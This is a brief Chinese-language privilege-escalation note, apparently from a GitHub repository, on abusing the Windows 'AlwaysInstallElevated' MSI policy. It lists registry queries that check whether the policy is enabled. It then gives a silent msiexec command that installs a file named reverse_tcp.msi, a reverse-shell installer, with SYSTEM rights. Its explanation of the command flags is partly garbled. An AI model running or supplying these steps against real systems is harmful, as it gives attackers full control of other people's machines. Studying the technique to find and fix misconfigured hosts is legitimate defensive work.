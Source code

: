 # 利用MSI安全策略提权

如果用户配置MSI安装策略时，启用了"始终以提升的权限安装"，会导致任何权限的用户都可以以SYSTEM权限安装MSI程序

确认系统是否存在漏洞

```
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

利用：(quiet#禁止安全期间向用户发送任何信息，qn#无GUI模型，i#常规an'z)

```
msiexec /quiet /qn /i reverse_tcp.msi
```
